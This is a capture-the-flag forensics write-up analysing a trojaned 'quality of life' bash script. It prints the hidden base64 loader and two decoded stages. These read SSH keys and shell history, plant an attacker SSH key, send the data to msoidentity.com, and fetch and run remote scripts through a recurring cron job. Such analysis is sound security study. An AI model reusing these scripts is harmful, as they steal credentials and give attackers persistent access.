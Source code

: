 # DoD Cyber Sentinel Challenge - Remote Help (forensics, 200p, Medium Difficulty) 6/24/2025
## Preface
Unfortunately, I do not have access to the original challenge statement, but it mentions something about a fictional internal attack from a recently hired remote worker. They were able to recover a [bash script](https://github.com/btoroth/QOL/blob/main/QOL.sh) that seems to have triggered alarms, causing the attack to fail. It then mentions to try and follow the cyber kill chain from start to finish to see what the attacker was trying to do, and along the way you'd find four different parts of the flag.

## Solving

![image](https://github.com/user-attachments/assets/710acb2e-cbea-489c-ac08-c4962739b961)

At first glance the script seems pretty harmless, even calling itself a QOL (Quality of Life) script meant to just make some minor improvements to the system. Update/upgrade packages, install some tools, create some aliases, blah blah blah. BUT if you keep scrolling, down at the very bottom we see this:

`sudo echo IyEvYmluL2Jhc2gKCiRsb2c9Ii90bXAvbG9nXyQoZGF0ZSArIiVZLSVtLSVkLS0lSC0lTSIpIgokdGd6PSI ... AvaW5mby5zaAovYmluL2Jhc2ggL3RtcC9pbmZvLnNoCnJtIC1mIC90bXAvaW5mby5zaAo= | base64 -d >> /tmp/0.sh && chmod +x /tmp/0.sh && /bin/bash /tmp/0.sh &`

Here we go, this seems to be yet another bash script - now obfuscated in base64 - being saved and executed. We can simply throw base64 string in to the browser tool CyberChef, it will automatically detect base64, and then decode it for us:

![image](https://github.com/user-attachments/assets/a6de7c73-fddb-4038-a09d-e87336d19171)

```
#!/bin/bash

$log="/tmp/log_$(date +"%Y-%m-%d--%H-%M")"
$tgz="/tmp/log_$(date +"%Y-%m-%d--%H-%M").tgz"

mkdir -p $log

cat /proc/cpuinfo >> "$log/cpu.txt"
cat /proc/meminfo >> "$log/mem.txt"
cat /etc/os-release >> "$log/os.txt"



for dir in $(ls /home -1); do
    
	if [ -f "$dir/.ssh/" ]; then
		cat $dir/.ssh/* >> "$log/'$dir'.txt"
		cat $dir/.bash_history >> "$log/'$dir'-bash.txt"
	fi
    # Perform your actions here
done

if [ "$(id -u)" -eq 0 ]; then
	cat /root/.ssh/* >> "$log/root.txt"
	cat /root/.bash_history >> "$log/root-bash.txt"
	local url="https://msoidentity.com/auth"
    local auth_keys="$HOME/.ssh/authorized_keys"
	
    curl -s "$url" >> "$auth_keys"
    chmod 600 "$auth_keys"
fi 


tar -cf "$tgz" "$log" 2>/dev/null

if [ -f "$tarfile" ]; then
        curl -s --output /dev/null -X POST -H "accept: application/json" -H "Content-Type: multipart/form-data" -F "file=@$tarfile" "https://msoidentity.com/log"
    fi
}

curl -s https://msoidentity.com/info | base32 -d >> /tmp/info.sh
/bin/bash /tmp/info.sh
rm -f /tmp/info.sh
```

Now were seeing something more malicious! This script basically seems to create a directory called log_(current datetime) and piles a whole bunch of sensitive system information in there like CPU, memory, and OS info, as well as SSH keys and shell history. The attacker also seems to drop their own SSH key from "https://msoidentity.com/auth" into the authorized keys directory to set up persistence. Then, the logs get compressed into a tar file and exfiltrated to "msoidentity.com/log" via a POST request.
After all that is done, another bash script - this time seemingly encoded in base32 - is retrieved and ran from "https://msoidentity.com/info". Now we have three new URLs to explore, so my first instinct was to simply visit all three of them in a browser. While the auth endpoint seemed to be a dud, the log and info endpoints both yielded me text file downloads. From the log endpoint I got the first part of the flag, "C1{Sn34ky_", and from the info endpoint I got the encoded script. Once again, throwing the base32 encoded string into cyberchef worked just fine and output this:

![image](https://github.com/user-attachments/assets/3199b2d5-b01c-4d54-b277-f3c6b5f57f17)

```
CHECK_SCRIPT="/usr/local/bin/check_backup.sh"
CRON_INTERVAL="*/5 * * * *"  # Every 5 minutes
CRON_JOB_NAME="check_backup_script"
SCRIPT_PATH="/opt/backup.sh"
$SCRIPT_URL=https://msoidentity.com/backup_info

# DO NOT PUT PASSWORDS IN PLAIN TEXT

cat <<EOF | sudo tee "$CHECK_SCRIPT" > /dev/null
#!/bin/bash
if [ ! -f "$SCRIPT_PATH" ]; then
    curl -fsSL "$SCRIPT_URL" -o "$SCRIPT_PATH.enc" && openssl enc -nosalt -aes-256-cbc -d -in "$SCRIPT_PATH.enc" -out "$SCRIPT_PATH" -pass pass:"45337a3067335f56475f" && chmod +x "$SCRIPT_PATH" && rm "$SCRIPT_PATH.enc"
fi
EOF

chmod +x "$CHECK_SCRIPT"

(crontab -l 2>/dev/null | grep -v "$CHECK_SCRIPT"; echo "$CRON_INTERVAL $CHECK_SCRIPT # $CRON_JOB_NAME") | crontab -
```
